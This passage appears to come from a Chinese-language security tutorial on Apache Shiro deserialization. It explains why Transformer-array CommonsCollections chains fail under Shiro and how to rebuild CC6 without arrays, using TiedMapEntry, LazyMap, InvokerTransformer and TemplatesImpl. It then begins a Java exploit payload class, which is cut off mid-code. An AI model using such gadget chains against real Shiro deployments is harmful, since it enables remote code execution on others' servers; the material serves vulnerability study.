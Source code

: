 到这里 shiro 本身的漏洞其实已经结束了, 后续需要结合 cc 链, cb 链或是其它第三方库利用链才能让这个反序列化发挥出实际效果

## CommonsCollections 无数组利用链

上面说过 shiro 使用了自己实现的 ClassResolvingObjectInputStream 来进行反序列化, 从而使得**非 Java 原生的数组会反序列化失败**

这就导致只要 cc 链包含了 Transformer 数组, 都会利用失败

参考文章 (写的很详细): [https://blog.zsxsoft.com/post/35](https://blog.zsxsoft.com/post/35)

解决办法有两种

1. 结合 RMI 协议来二次反序列化 (利用 JRMPClient)
2. 构造无数组形式的反序列化链

RMI 之前详细写过, 所以下面重点讲第二种方法

### CommonsCollections6 改造

cc6 的入口点是 TiedMapEntry 的 hashCode 方法, 从而触发 LazyMap

但因为需要通过反射调用 `Runtime.exec()`, 所以不可避免地要用到多个 InvokerTransformer

不过我们先回顾一下 LazyMap, 它的 get 方法会将传入的参数放到 transform 里面

![image-20221218214735527](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182147563.png)

再来看 TiedMapEntry, 其 getValue 方法会将 `this.key` 传入 `this.map.get()`

![image-20221218214646127](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212182146209.png)

不难发现通过 TiedMapEntry 的 key 可以节省一步 ConstantTransformer 的操作, 而刚好 TemplatesImpl 链的触发只需要进行一次 newTransformer() 调用

所以将 LazyMap 的 factory 设置成单独的 InvokerTransformer, 然后利用 TiedMapEntry 传入 TemplatesImpl, 就可以避免 Transformer 数组的构造

改造的 payload 如下

```java
package com.example.CommonsCollections;

import com.example.Reflection;
import com.example.Serialization;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.util.Arrays;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6Shiro {
    public static void main(String[] args) throws Exception{

        TemplatesImpl templatesImpl = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evil.class.getName());
        byte[] code = clazz.toBytecode();

        Reflection.setFieldValue(templatesImpl, "_name", "Hello");
```
